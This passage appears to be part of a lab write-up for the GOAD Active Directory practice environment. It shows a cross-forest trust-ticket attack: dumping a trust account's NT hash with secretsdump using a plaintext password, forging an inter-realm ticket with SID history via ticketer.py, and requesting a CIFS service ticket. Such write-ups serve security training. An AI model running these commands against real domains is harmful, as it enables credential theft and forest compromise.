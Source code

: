 ## Trust ticket with external forest ( essos -> sevenkingdoms)

- Excatly like we done before on domain forest we can do this on external forest but just like with golden ticket we need the sid history enabled to bypass the sid filtering.

- Find the domain sid with lookupsid.py
  - essos SID : S-1-5-21-2203133648-1386395927-1390703624
  - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::
...
```

- Create the inter-realm tgt ticket 

```bash
ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
 -domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
 -domain essos.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
 -spn krbtgt/sevenkingdoms.local trustdragon
```

![trust_external_trustticket1.png](/assets/blog/GOAD/trust_external_trustticket1.png)

- Ask a service ticket for kingslanding cifs

```bash
export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug
```
